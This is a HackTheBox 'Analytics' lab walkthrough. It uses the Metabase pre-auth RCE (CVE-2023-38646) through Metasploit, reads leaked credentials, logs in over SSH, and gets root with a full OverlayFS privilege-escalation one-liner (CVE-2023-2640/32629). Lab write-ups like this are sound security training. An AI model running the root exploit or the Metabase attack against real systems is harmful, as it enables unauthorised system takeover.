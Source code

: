 ```yaml
---
layout: post
title: "Hack The Box - Analytics"
categories: guide
author:
- th4ntis
---
```


This is my walkthrough for HackTheBox [Analytics Box](https://app.hackthebox.com/machines/Analytics)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(840).png)

First we scan the Machine

```bash
nmap -T4 -Pn -v 10.129.85.38
```

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(841).png)

We see port 22 and 80 open.

Browse to the website and we get an error, add the IP and domain to the hosts file.&#x20;

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(842).png)

Now going back to the website we can look around!

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(843).png)

Looking around, we see the Login page at the top. Checking that out, it doesn't work BUT the URL has changed to `data.analytical.htb`, so let's add that to the hosts file as well.

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(844).png)

When looking we see it's running Metabase.

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(845).png)

Search for Metabase exploits on google as well as in metasploit. I find [this blog](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/) talking about Chaining our way to Pre-Auth RCE in Metabase (CVE-2023-38646)

In Metasploit we see a potential exploit

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(846).png)

Let's check the options and set them

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(847).png)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(848).png)

Send the exploit....

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(849).png)

We have a shell! Now let's see if we can get and run linpeas.

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(850).png)

We can! Run it!

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(851).png)

We see in the "Environment" section, a user and a password

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(852).png)

```
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

Let's ssh into the machine with the newly discovered username and password.

```bash
ssh metalytics@10.129.85.38
```

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(853).png)

Got the user flag! `5f24e4536b318d506fe1a38fbbd959fa`

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(854).png)

### Priv Escalation

I seen we were running Ubuntu 22.04.3 as we logged in.

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(855).png)

A simple google search for "Ubuntu 22.04.3 priv escalation" shows me [this reddit post](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu\_local\_privilege\_escalation\_cve20232640/) about Ubuntu Local Privilege Escalation (CVE-2023-2640 & CVE-2023-32629) with multiple references. They list how you can get root using the OverlayFS module with this command:

```bash
unshare -rm sh -c "mkdir 1 u w m && cp /u*/b*/p*3 1/; setcap cap_setuid+eip 1/python3;mount -t overlay overlay -o rw,lowerdir=1,upperdir=u,workdir=w, m && touch m/*;" && u/python3 -c 'import pty; import os;os.setuid(0); pty.spawn("/bin/bash")'
```

We have root! `f35c47aac97cb1a6b5450d4eb024a3cc`

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(856).png)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(857).png)
